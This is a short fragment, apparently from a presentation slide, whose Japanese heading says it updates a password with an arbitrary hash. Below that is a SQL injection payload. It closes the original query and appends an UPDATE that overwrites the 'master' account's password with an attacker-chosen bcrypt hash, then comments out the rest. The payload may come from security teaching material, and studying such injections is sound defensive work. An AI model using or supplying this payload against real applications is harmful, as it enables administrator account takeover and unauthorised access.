

# ハッシュ化した任意のパスワードで更新する
2 ) ; update users set password=
‘$2y$10$0Kk.HVn7LzQ2apdpaO00JOi0SzfuarH8BgIw5SRJTRINczIiieRZu’ where loginid='master' --